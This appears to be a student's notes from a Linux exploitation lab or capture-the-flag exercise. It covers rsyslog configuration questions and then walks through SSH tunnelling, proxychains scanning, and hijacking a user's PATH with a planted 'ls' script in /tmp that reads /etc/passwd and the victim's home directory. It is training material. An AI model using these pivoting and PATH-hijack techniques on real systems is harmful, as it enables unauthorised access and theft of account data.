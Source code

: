 ## LINUX EXPLOITATION NOTES ##



![Alt Text](linux_exploitation_images/image_01.png)

1. Using the contents of the "rsyslog2.conf" file as an example:

True/False: If this file were named /etc/rsyslog.conf, would the configuration be a concern for us if we gained accessed through secure shell?

To successfully answer the challenge, provide a T or F (capitalized)

T because while custom configuration data is in /etc/rsyslog.conf

2. Using the contents of the "rsyslog2.conf" file as an example:

Which rule will send a message to any logged in user?

To answer challenge successfully provide the facility.priority of the rule.

Example: mail.debug

*.emerg

# Everybody gets emergency messages

3. Using the "rsyslog2.conf" file.

Which active rule or rules is using a abnormal logging location?

To successfully complete the challenge provide the rule facility.priority.Example: mail.debug

local7.alert

#/var/log/wtmp(x) = Provides a permanent historical record of each time a user logged in and out, and system boots, reboots, and shutdowns in binary format.

4. Using the "rsyslog2.conf" file.

What priority level will user facility log?

To successfully complete the challenge provide the rule severity level.

![Alt Text](linux_exploitation_images/image_02.png)

0 = emergency

5. Using the "rsyslog2.conf" file.

Is remote logging enabled?To successfully complete the challenge provide a Y or N (capitalized)

Y # *.* @@192.0.2.1:13232 = this identifies all facilities and severity messages to a remote logging server

6. Using the "rsyslog2.conf" file.

What servers could this system send logs to? (also consider commented entries)

192.0.2.1 193.0.12.1 193.0.42.1

![Alt Text](linux_exploitation_images/image_03.png)

7. Using the "rsyslog2.conf" file.

What transport layer protocol does @@ utilize for communications when remote logging?

port 13232 == TCP

8. Using the "rsyslog2.conf" file.

Which rules are inactive, what are their facilities?

Rules has # making them inactive

![Alt Text](linux_exploitation_images/image_04.png)

9. There is a user on the system with the ability to sudo certain programs that has a '.' dot in their path and is navigating to and listing the contents of common world writable directories approximately every five minutes.

The user's script is running like this:

cd `printf "/var/tmp\n/tmp\n"|sort -R | head -n 1`;ls

The flag is located in this users home directory.

Step 1: Create a local Tunnel from lin-ops to Pivot (192.168.28.105)

student@lin-ops:~$ ssh student@10.50.33.231 -L 50511:192.168.28.105:2222 -NT

Step 2: Create a Dynamic to Pivot

student@lin-ops:~$ ssh comrade@localhost -p 50511 -D 9050 –NT

Step 3: Scan the target T1 for opem ports

student@lin-ops:~$ proxychains nmap -Pn 192.168.28.27 -p 1-5000

![Alt Text](linux_exploitation_images/image_05.png)

Step 4: Create a tunnel from lin-ops to T1

student@lin-ops:~$ ssh comrade@localhost -p 50511 -L 50522:192.168.28.27:22 -NT

Step 5: ssh to T1

student@lin-ops:~$ ssh comrade@localhost -p 50522

Step 6: Go to cd `printf "/var/tmp\n/tmp\n"|sort -R | head -n 1`;ls

![Alt Text](linux_exploitation_images/image_06.png)

Step 7: Here we are not able to read the files above. But the current user comrade@lin2 has “.” on directory which makes any script we put on that directory executable.

Create a Script:

`nano ls`

`!/bin/bash`

#script that sends information to a remote system.

`cat /etc/passwd > /tmp/test1.txt`

Here, this script is readin /etc/passwd and sending it to the /tmp directory to a file test2.txt

Do the same on /var/tmp direcotory as well

`nano ls`

Step 8: go back to /tmp directory and read the test1.txt file

![Alt Text](linux_exploitation_images/image_07.png)

Step 9: we need to identify who is running this scrip so change the nano ls on both directories

`nano ls`

`!/bin/bash`

#script that sends information to a remote system.

`whoami > /tmp/test1.txt`

And read the test1.txt file

![Alt Text](linux_exploitation_images/image_08.png)

Step 10: we know billybob is running the file

Step 11: Now, we need to figure out password for billybob -----

Nano

#!/bin/bash

# script that sends information to a remote system

/bin/ls /home/billybob > /tmp/test1.txt

Step 12: cat test1.txt

Note: watch “test1.txt” #this will run the file every 2 second

![Alt Text](linux_exploitation_images/image_09.png)

10. A command this user is able to sudo can be abused to obtain access as another user. This may take some research and effort to obtain root access with it.

It is possible that your initial user does not have sudo privileges and that you will need to move laterally to another account.

The flag can be found under the root profile directory